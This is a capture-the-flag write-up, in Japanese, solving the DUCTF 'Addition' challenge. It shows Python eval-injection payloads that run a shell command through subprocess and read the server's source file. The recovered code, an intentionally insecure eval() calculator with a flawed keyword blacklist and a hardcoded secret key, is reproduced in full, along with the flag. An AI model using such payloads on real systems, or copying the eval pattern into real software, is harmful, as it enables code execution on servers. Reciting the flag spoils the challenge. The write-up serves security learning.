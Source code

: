 # Addition:misc:200pts
Joe is aiming to become the next supreme coder by trying to make his code smaller and smaller. His most recent project is a simple calculator which he reckons is super secure because of the "filters" he has in place. However, he thinks that he knows more than everyone around him. Put Joe in his place and grab the flag.  
[https://chal.duc.tf:30302/](https://chal.duc.tf:30302/)  

# Solution
URLにアクセスすると以下のようなサイトだった。  
Joe's Supreme calculator  
[site1.png](site/site1.png)  
不適切な入力をしてみてもエラー内容は表示されないようだ。  
printも表示されない。  
pythonらしいので、以下を実行してみる。  
```python
__import__("subprocess").check_output(["ls","-al","."])
```
[site2.png](site/site2.png)  
整形すると以下になる。  
```text
total 32
drwxr-xr-x 1 root root 4096 Sep 19 10:07 .
drwxr-xr-x 1 root root 4096 Sep 19 10:07 ..
drwxr-xr-x 2 root root 4096 Sep 19 10:07 __pycache__
-rw-r--r-- 1 root root 1371 Sep 9 07:18 main.py
-rw-r--r-- 1 root root 202 Aug 16 16:49 prestart.sh
drwxr-xr-x 2 root root 4096 Sep 13 05:41 templates
-rw-r--r-- 1 root root 37 Aug 16 16:49 uwsgi.ini
```
main.pyをreadする。  
```python
open("main.py","rb").read()
```
整形すると以下になる。  
[site3.png](site/site3.png)  
```python:main.py
from flask_wtf import FlaskForm
from flask import Flask, render_template, request
from wtforms import Form, validators, StringField, SubmitField

app = Flask(__name__)
app.config['SECRET_KEY'] = '7d441f27d441f27567d441f2b6176a'

blacklist = ["import", "os", "sys", ";", "print", "__import__", "SECRET", "KEY", "app", "open", "globals"]
maybe_not_maybe_this = "HYPA HYPA"
maybe_this_maybe_not = "DUCTF{3v4L_1s_D4ng3r0u5}"

class CalculatorInput(FlaskForm):
	user_input = StringField('Calculation', validators=[validators.DataRequired()]) 
	submit = SubmitField('Calculate for me')

@app.route("/", methods=["GET", "POST"])
def mainpage():	
	form = CalculatorInput()
	out = ""
	if request.method == 'POST':
		user_input = request.form['user_input']
		
		for items in blacklist:
			if items in user_input:
				out = "Nice try....NOT. If you want to break my code you need to try harder"
			else:
				try:
					# Pass the users input in a eval function so that I dont have to write a lot of code and worry about doing the calculation myself
					out = eval(user_input)
				except:
					out = "You caused an error... because my friend told me showing errors to hackers can be problematic I am not going to tell you what you broke"
		
	return render_template("calculator.html", form=form, out=out)

if __name__ == "__main__":
 app.run(host="0.0.0.0", debug=True, port=6969)
```
blacklistとは…  
flagが書かれていた。  

## DUCTF{3v4L_1s_D4ng3r0u5}